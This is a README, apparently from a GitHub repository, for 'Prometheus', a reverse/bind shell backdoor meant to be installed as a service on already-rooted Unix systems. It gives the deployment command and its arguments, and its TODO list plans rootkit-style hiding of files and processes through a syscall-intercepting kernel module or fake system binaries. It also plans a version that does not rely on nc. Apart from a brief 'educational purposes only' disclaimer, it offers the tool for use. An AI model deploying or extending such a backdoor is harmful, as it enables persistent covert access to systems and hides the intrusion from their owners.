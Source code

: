 # Prometheus backdoor
Prometheus is a reverse/bind shell service backdoor to quickly deploy on rooted unix systems.

deploy.sh, n0sl33p_default and prometheus.service need to be all in the same folder.

Then deploy with:
`sudo ./deploy [bind/reverse] [PORT/HOST] [PASSWORD/PORT] (RETRYTIME if reverse)`

#
### TODO:

-> Add a kernel module to intercept syscalls or make fake "ps", "ls", "systemctl", "netstat" binaries to hide all files and processes

-> Make a nc-less version

-> Improve error-handling, make shell prettier

#
#### Disclaimer: I made this for educational purposes only. I do not condone any illegal uses of Prometheus. You are responsible for your actions.
